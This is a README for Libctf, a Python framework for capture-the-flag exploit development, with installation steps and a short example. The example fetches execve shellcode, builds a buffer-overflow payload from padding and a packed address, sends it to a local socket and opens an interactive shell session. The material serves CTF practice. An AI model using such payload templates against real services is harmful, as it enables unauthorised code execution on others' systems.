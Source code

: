 # Introduction

Libctf is a CTF framework written by meta of the Neg9 CTF team. The framework is a collection of tools and python libraries to simplify exploit development and many of the other tasks frequently performed during a CTF.

# Example

	from libctf import *
	shelldb = ShellcodeDB()
	print shelldb.list()
	shellcode = shelldb.get('linux x86 execve 1')
	sock = Sock('localhost',9090)
	payload = 'A'*100 + pack32(0x11223344) + shellcode 
	sock.write(payload)
	sock.interact()

# Installation

To install to your home directory (~/.local/lib/python2.7/site-packages/):

	python setup.py install --user

To install for all users (/usr/local/lib/python2.7/dist-packages/):
	
	sudo python setup.py install




